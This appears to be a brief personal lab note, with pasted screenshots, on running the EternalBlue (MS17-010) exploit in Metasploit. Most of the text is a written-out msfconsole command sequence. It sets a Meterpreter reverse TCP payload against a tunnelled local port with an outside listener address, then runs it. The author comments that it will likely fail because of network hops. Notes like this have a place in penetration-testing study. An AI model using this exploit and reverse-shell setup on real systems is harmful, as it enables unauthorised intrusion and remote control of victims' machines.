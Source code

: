 ![Pasted image 20250601125927](../zzAttachments/Pasted%20image%2020250601125927.png)

##### msfconsole
```
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/reverse_tcp
set rhost 127.0.0.1
set rport 4445
set lhost 72.69.76.76
set lport 45241
```
![Pasted image 20250601130825](../zzAttachments/Pasted%20image%2020250601130825.png)
```
run
```
It will most likely fail and continue to fail due the the amount of hops being made.
